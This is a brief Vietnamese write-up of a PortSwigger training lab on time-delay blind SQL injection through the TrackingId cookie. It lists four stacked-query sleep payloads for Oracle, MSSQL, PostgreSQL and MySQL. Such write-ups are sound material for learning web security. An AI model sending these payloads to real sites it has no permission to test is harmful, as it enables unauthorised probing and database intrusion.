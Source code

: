 ## Blind SQL injection with time delays

1. Theo đề bài của lab thì server sẽ tiến hành truy vấn SQL bằng value của ``TrackingId`` cookie. Dựa vào Time delays trong [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) ta sẽ thử với từng payload, với ``%3B`` là url encode của ``;`` để thực thi mutli query.
Payload:
- ```'%3B dbms_pipe.receive_message(('a'),10) --```
- ```'%3B WAITFOR DELAY '0:0:10' --```
- ```'%3B SELECT pg_sleep(10) --```
- ```'%3B SELECT SLEEP(10) --```

![Img1](\asset/../img/done.png)